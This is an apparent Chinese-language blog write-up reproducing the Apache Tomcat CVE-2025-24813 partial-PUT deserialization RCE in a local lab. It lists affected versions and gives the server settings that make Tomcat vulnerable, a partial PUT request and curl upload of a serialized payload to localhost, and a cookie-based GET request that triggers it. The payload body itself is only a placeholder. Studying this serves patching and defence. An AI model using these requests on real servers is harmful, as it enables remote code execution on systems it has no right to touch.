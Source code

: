 ```yaml
---
layout: post
title: 'Apache Tomcat RCE漏洞复现（CVE-2025-24813）'
date: "2025-03-15T00:37:06Z"
---
```

Apache Tomcat RCE漏洞复现（CVE-2025-24813）
=====================================

近日官方披露 Apache Tomcat partial PUT文件上传反序列化漏洞。在 CVE-2025-24813 中tomcat开启文件会话持久化，攻击者可利用PUT上传文件，并构造恶意请求触发session文件反序列化。

漏洞描述
====

该漏洞的核心在于 Tomcat 在处理不完整PUT请求上传时，会使用了一个基于用户提供的文件名和路径生成的临时文件。

若同时满足以下条件，攻击者可执行任意代码：

1.  默认 Servlet 启用了写权限（默认禁用）
    
2.  启用了部分PUT请求支持（默认启用）
    
3.  应用程序使用 Tomcat 的基于文件的会话持久化（默认存储位置）
    
4.  应用程序包含可被利用于反序列化攻击的库
    

受影响版本
=====

*   Apache Tomcat 11.0.0-M1 至 11.0.2
    
*   Apache Tomcat 10.1.0-M1 至 10.1.34
    
*   Apache Tomcat 9.0.0-M1 至 9.0.98
    

漏洞环境搭建
======

尝试使用 Tomcat 9.0.98 版本复现：[https://archive.apache.org/dist/tomcat/tomcat-9/v9.0.98/bin/apache-tomcat-9.0.98.zip](https://archive.apache.org/dist/tomcat/tomcat-9/v9.0.98/bin/apache-tomcat-9.0.98.zip)

根据里利用条件描述：

1.  需要在conf/web.xml中，将DefaultServlet的readonly配置为false，启用写入功能

    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    

![image](https://img2024.cnblogs.com/blog/3222269/202503/3222269-20250314195524448-733187766.png)

2.  需要在conf/context.xml中，开启File文件会话存储

    <Manager className="org.apache.catalina.session.PersistentManager">
        <Store className="org.apache.catalina.session.FileStore"/>
    </Manager>
    

![image](https://img2024.cnblogs.com/blog/3222269/202503/3222269-20250314195229042-1041249511.png)

3.  PUT方法默认是启用状态
    
4.  需要在项目中包含可被利用于反序列化攻击的库（例如 Commons Collections 3.2.1）
    
    下载 commons-collections-3.2.1.jar（[https://mvnrepository.com/artifact/commons-collections/commons-collections/3.2.1）](https://mvnrepository.com/artifact/commons-collections/commons-collections/3.2.1%EF%BC%89)
    
    将该 jar 包放入`webapps\ROOT\WEB-INF\lib`目录下
    

利用条件准备完毕，启动 Tomcat 程序：`.\bin\catalina.bat run`（若是在 liunx/mac 环境下则改用 catalina.sh ），浏览器访问本地8080端口查看是否启动成功。

漏洞复现
====

参考@jweny大佬文章：[https://forum.butian.net/article/674](https://forum.butian.net/article/674)

使用 partial PUT 请求将恶意的序列化数据写入到会话文件中，在开启文件会话持久化（默认存储位置），并且在文件上传未完成的情况下，内容会被临时存储在 Tomcat 的工作目录`work\Catalina\localhost\ROOT`。

在 HTTP 协议中，`Content-Range` 字段用于表示客户端通过分段传输的方式上传或下载文件。例如 `Content-Range: bytes 0-1000/1200` 表示文件总大小是1200字节，本次上传的是前1001字节（0-1000），后续上传剩余部分（1001-1200）。

所以利用这个特点，可以分段上传覆盖或注入敏感文件，尝试下向默认存储位置 work\\Catalina\\localhost\\ROOT 注入文件：

    PUT /poc/session HTTP/1.1
    Host: localhost:8080
    Content-Range: bytes 0-1000/1200
    
    {{(paylaod...)}}
    

注意看ROOT目录下成功写入了文件（.poc.session）：

Tomcat 对不完整的PUT请求上传时的文件名处理机制：文件路径中的分隔符 `/` 会被转换为 `.`

![image](https://img2024.cnblogs.com/blog/3222269/202503/3222269-20250314205418431-1182118982.png)

准备生成一个恶意的序列化文件上传，推荐使用 [Java Chains](https://java-chains.vulhub.org/zh/docs/guide "Java Chains") 快速生成一个base64编码的cc链反序列化payload，这里选择用K1链来弹计算器：

![image](https://img2024.cnblogs.com/blog/3222269/202503/3222269-20250314210209922-98260330.png)

准备好PUT请求包，这里需要注意 Content-Range 的分块值需要大于当前文件的长度。这里使用yakit的base64dec()标签对payload进行解码上传，直接上传Raw格式Payload是不可用的。

或者使用curl直接上传bin格式Payload文件：

`curl -X PUT -H "Content-Range: bytes 0-1000/1200" --data-binary @payload.ser http://localhost:8080/poc/session`

![image](https://img2024.cnblogs.com/blog/3222269/202503/3222269-20250314221139220-903650715.png)

![image](https://img2024.cnblogs.com/blog/3222269/202503/3222269-20250314214535909-720204882.png)

当Payload文件被上传成功后，大约30s之内就会被自动触发，随之该session文件被清除。

也可以使用以下poc直接触发：

    GET / HTTP/1.1
    Host: localhost:8080
    Cookie: JSESSIONID=.poc
    

![image](https://img2024.cnblogs.com/blog/3222269/202503/3222269-20250314213024833-1944630460.png)

> 参考文章  
> [https://forum.butian.net/article/674](https://forum.butian.net/article/674)  
> [https://lists.apache.org/thread/j5fkjv2k477os90nczf2v9l61fb0kkgq](https://lists.apache.org/thread/j5fkjv2k477os90nczf2v9l61fb0kkgq)  
> [https://www.bilibili.com/video/BV14dQjYcEc5/?spm\_id\_from=333.1007.top\_right\_bar\_window\_default\_collection.content.click&vd\_source=4558613fd07f85f0f4c56e4f927f88ee](https://www.bilibili.com/video/BV14dQjYcEc5/?spm_id_from=333.1007.top_right_bar_window_default_collection.content.click&vd_source=4558613fd07f85f0f4c56e4f927f88ee)  
> [https://avd.aliyun.com/detail?id=AVD-2025-24813&timestamp\_\_1384=Wqmx0D2DnDBGQ7KDsKo4Cw4xROjhiHqQkF4D](https://avd.aliyun.com/detail?id=AVD-2025-24813&timestamp__1384=Wqmx0D2DnDBGQ7KDsKo4Cw4xROjhiHqQkF4D)

* * *

若有错误，欢迎指正！o(￣▽￣)ブ